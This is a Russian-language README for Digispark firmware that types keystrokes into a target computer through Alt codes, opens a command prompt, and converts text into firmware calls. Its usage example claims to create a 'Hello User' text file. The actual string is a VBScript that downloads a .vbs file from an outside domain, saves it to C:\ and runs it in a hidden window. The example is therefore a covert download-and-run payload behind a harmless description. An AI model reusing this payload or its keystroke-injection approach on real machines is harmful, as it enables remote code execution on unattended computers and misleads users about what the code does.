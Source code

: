 <p><span style="font-size:14px"># DigisparkUSBwriter<br />
<strong>Код написан (если можно это назвать кодом) и отлажен за пару вечеров, если хотите его оптимизировать и улучшить то я буду только рад.&nbsp;</strong><br />
Прошивка вводит текст в целевую систему&nbsp;через&nbsp;плату&nbsp;<strong>Digispark</strong>&nbsp;&nbsp;используя Alt Коды (<strong><span style="color:#FF0000"></span></strong> (<strong>проверено на <span style="color:#008000">Win 7, WIn 10, Raspbian</span></strong>), <strong><span style="color:#008000">работает без учёта Numlock и вне зависимости от установленного языка</span></strong>)</span><br />
<span style="font-size:16px"><strong>Возможности данной прошивки:</strong></span><br />
&nbsp; &nbsp;<span style="font-size:14px"> Вызов CMD.<br />
&nbsp; &nbsp; Ввод текста на английском, символы доступные для ввода:&nbsp;</span></p>

<ul>
	<li><span style="font-size:14px">&nbsp;abcdefghijklmnopqrstuvwxyz</span></li>
	<li><span style="font-size:14px">ABCDEFGHIJKLMNOPQRSTUVWXYZ</span></li>
	<li><span style="font-size:14px">[]\/^&#39;_(){}`&quot;@?&lt;&gt;=;:.,+-*!</span></li>
	<li><span style="font-size:14px">1234567890</span></li>
	<li><span style="font-size:14px">символ | используеться для эмуляции нажатия enter</span></li>
	<li><span style="font-size:14px">&nbsp;пробел (&quot; &quot;) используеться как побел (логично)</span></li>
</ul>

<p><span style="font-size:16px"><strong>Описание кода:</strong></span><br />
<span style="font-size:14px"><strong>&nbsp;Процедура<u> st(char sm)</u></strong><br />
&nbsp; В качестве переменной <strong><u><span style="color:#FF0000">передаётся только один символ</span></u></strong> типа char,&nbsp;<br />
&nbsp;Пример вызова:&nbsp;&nbsp;<strong>st(&#39;T&#39;);</strong>&nbsp; введёт&nbsp; в систему букву T один раз.</span></p>

<p><br />
<span style="font-size:14px"><strong>&nbsp;Процедура <u>cmd()</u></strong><br />
&nbsp; Открывает коммандную строку по&nbsp; принципу:&nbsp;</span></p>

<ol>
	<li><span style="font-size:14px">&nbsp;Эмулирует нажатие win+r</span></li>
	<li><span style="font-size:14px">Ждёт секунду (1000 милисекунд)</span></li>
	<li><span style="font-size:14px">Вводит cmd и нажимает enter&nbsp;</span></li>
	<li><span style="font-size:14px">Ждёт 3 секунды&nbsp;(3000 милисекунд) и завершает свою работу</span></li>
</ol>

<p><span style="font-size:14px">Тайминг выбран из головы, в зависимости от целевой машины можете их менять.</span></p>

<p>&nbsp;</p>

<p><span style="font-size:14px"><strong>&nbsp; Процедура&nbsp;<u>po()</u></strong></span></p>

<p><span style="font-size:14px">Пассивная процедура, используется в коде для отключения всех ранее нажатых клавиш кроме ALT.</span></p>

<p>&nbsp;</p>

<p><span style="font-size:14px">&nbsp;<u><strong>Процедура&nbsp;nl()</strong></u></span></p>

<p><span style="font-size:14px">Выполняет функционал что и процедура выше.</span></p>

<p>&nbsp;</p>

<p><span style="font-size:14px">&nbsp;<strong>Процедура keyp(byte o, byte t)</strong></span></p>

<p><span style="font-size:14px">Используется для ввода Alt кодов из процедуры <strong>st()</strong>, изначальная история создания данной процедуры заключаеться в сокращении занимаемого места в памяти микроконтроллера.</span></p>

<p>&nbsp;</p>

<p><span style="font-size:16px"><strong>Использование:</strong></span></p>

<p>Для создания на локальном диске текстового документа с текстом Hello User нам понадобиться код конвертор на js:</p>

<pre>
var str = 'dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")|dim bStrm: Set bStrm = createobject("Adodb.Stream")|xHttp.Open "GET", "https://xn--80aqah2a0c.com/msg.vbs", False|xHttp.Send|with bStrm|.type = 1|.open|.write xHttp.responseBody|.savetofile "c:\ms.vbs", 2|end with|Set WshShell = CreateObject("WScript.Shell")|WshShell.Run "c:\ms.vbs", 0, false|Set WshShell = Nothing|WScript.Quit';
var total = '';
for(var i =0;i<str.length;i++){
total+="st('"+str[i]+"');"+'<br>';
}
document.write(total);
</pre>
Использование конвертора:
<ul>
<li>Нажимаем в браузере в новой вкладке: Сtrl+Shift+R;</li>
<li>Переходим во кладку "Console";</li>
<li>Копируем код выше в консоль;</li>
<li>Меняем значение переменной str на своё;</li>
<li>Нажимаем Enter;</li>
<li>Получившийся код вставляем в скетч с заменой с 1008 по 1011 строку;</li>
<li>По вкусу в нужных местах используем Enter строчкой вида:
<pre>DigiKeyboard.sendKeyStroke(KEY_ENTER);</pre></li>
</ul>
